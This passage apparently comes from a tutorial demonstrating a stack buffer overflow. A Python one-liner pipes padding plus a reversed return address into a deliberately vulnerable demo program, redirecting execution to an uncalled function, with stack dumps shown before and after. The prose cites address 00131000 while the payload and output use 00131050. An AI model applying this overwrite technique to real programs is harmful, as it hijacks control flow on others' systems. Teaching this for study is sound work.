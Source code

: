 ```shell

xxxx
My stack is:
78787878
00000000
00AFFE80
001310C1
00AFFE78
78787878
00131100
00AFFEC8
```

The key points to note is where the return address is on the stack.  It is the fourth entry down (`001310C1` in this example).  With that information, we can send input into the application that calls this code.  We do this via Python, which allows us to send a hex string to the application by piping data.  Data is pushed in reverse order on Windows, so we have to flip the input.  To call `uncalled` we just use its address -- `00131000`.  The following is an example (replace memory address accordingly). **You will have to run Python from the same location as the executable file generated, and use the correct executable name.**

```shell
python -c "print('x' * 12 + '\x50\x10\x13\x00')" | exploit

Address of main = 00131070
Address of copy_string = 00131000
Address of uncalled =  00131050
My stack is:
FFFFFFFF
00000001
00EFF87C
001310C1
00EFF874
78787878
78787878
78787878

xxxxxxxxxxxx
My stack is:
78787878
78787878
78787878
00131050
00EFF874
78787878
78787878
78787878

How was this called?!?
```

And there you go.  You have now executed code that should not have been.  This could be anything, and if the program has administrator privileges then things are worse.
